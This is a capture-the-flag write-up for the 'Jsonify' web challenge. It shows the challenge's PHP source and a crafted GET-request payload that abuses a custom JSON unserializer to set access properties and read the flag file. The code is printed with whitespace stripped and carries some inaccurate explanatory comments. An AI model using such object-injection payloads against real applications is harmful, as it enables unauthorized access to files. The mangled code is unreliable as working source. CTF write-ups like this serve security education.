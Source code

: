 # 1. Jsonify
Challenge Description: Everyone's telling me that serialize/unserialize should not be used with user-supplied input. Alright, I implemented my own JSON-based (un)serializer, so all potential vulnerabilities are gone, right?

link: http://52.59.124.14:10002/

Solution:<br>
+ Given the following code:
```
<? phpini_set('allow_url_fopen', false);
interfaceSecurSerializable
{
    publicfunction__construct();
    publicfunction__shutdown();
    publicfunction__startup();
    publicfunction__toString();
}
classFlagimplementsSecurSerializable
{
    public $flag;
    public $flagfile;
    public $properties = array();
    publicfunction__construct($flagfile = null) //__construct allows you to initialise an object's properties upon creation of the object
    {
        if (isset($flagfile))
        {
            $this->flagfile = $flagfile;
        }
    }
    publicfunction__shutdown()
    {
        return $this->properties;
    }
    publicfunction__startup()  //he compiler looks for a special function named __STARTUP() when it compiles your source code
    {
        $this->readFlag();
    }
    publicfunction__toString()  //return string contents of an element
    {
        return "ClassFlag(" . $this->flag . ")";
    }
    publicfunctionsetFlag($flag)
    {
        $this->flag = $flag;
    }
    publicfunctiongetFlag()
    {
        return $this->flag;
    }
    publicfunctionsetFlagFile($flagfile)
    {
        if (stristr($flagfile, "flag") || !file_exists($flagfile)) //strisstr() checks the first occurence of a string inside another string.
        {
            echo "ERROR:Fileisnotvalid!";
            return;
        }
        $this->flagfile = $flagfile;
    }
    publicfunctiongetFlagFile()
    {
        return $this->flagfile;
    }
    publicfunctionreadFlag()
    {
        if (!isset($this->flag) && file_exists($this->flagfile))
        {
            $this->flag = join("", file($this->flagfile));
        }
    }
    publicfunctionshowFlag()
    {
        if ($this->isAllowedToSeeFlag)
        {
            echo "Theflagis:" . $this->flag;
        }
        else
        {
            echo "Theflagis:[You'renotallowedtoseeit!]";
        }
    }
}
functionsecure_jsonify($obj)
{
    $data = array();
    $data['class'] = get_class($obj);
    $data['properties'] = array();
    foreach ($obj->__shutdown() as & $key)
    {
        $data['properties'][$key] = serialize($obj->$key);
    }
    returnjson_encode($data);
}
functionsecure_unjsonify($json, $allowed_classes)
{
    $data = json_decode($json, true);
    if (!in_array($data['class'], $allowed_classes))
    {
        thrownewException("ErrorProcessingRequest", 1);
    }
    $obj = new $data['class']();
    foreach ($data['properties'] as $key => $value)
    {
        $obj->$key = unserialize($value, ['allowed_classes' => false]);
    }
    $obj->__startup();
    return $obj;
}
if (isset($_GET['show']) && isset($_GET['obj']) && isset($_GET['flagfile']))
{
    $f = secure_unjsonify($_GET['obj'], array(
        'Flag'
    ));
    $f->setFlagFile($_GET['flagfile']);
    $f->readFlag();
    $f->showFlag();
}
elseif (isset($_GET['show']))
{
    $f = newFlag();
    $f->flagfile = "./flag.php";
    $f->readFlag();
    $f->showFlag();
}
else
{
    header("Content-Type:text/plain");
    echopreg_replace('/\s+/', '', str_replace("\n", '', file_get_contents("./index.php")));
} //With<3by@gehaxelt
 ?>
```
+ After reading the code, lets cut out the code into following four codeS:
   + (isset($_GET['show']) && isset($_GET['obj']) && isset($_GET['flagfile']))
   + $obj->$key = unserialize($value, ['allowed_classes' => false]);
   + $this->isAllowedToSeeFlag
   + if (stristr($flagfile, "flag") || !file_exists($flagfile))
        {
            echo "ERROR:Fileisnotvalid!";
            return;
        }
        $this->flagfile = $flagfile;
       
+ From the above, we can craft a payload as follows:<br>
`52.59.124.14:10002/?show=1&obj={"class":"Flag","properties":{"isAllowedToSeeFlag":"i:1;","flagfile":"s:8:\"flag.php\";"}}&flagfile=naiailoveyou`<br>
There we get a message like 'error: file not found, the flag is: ' then we check the view source and we get the flag.<br>
flag: ENO{PHPwn_1337_hakkrz}


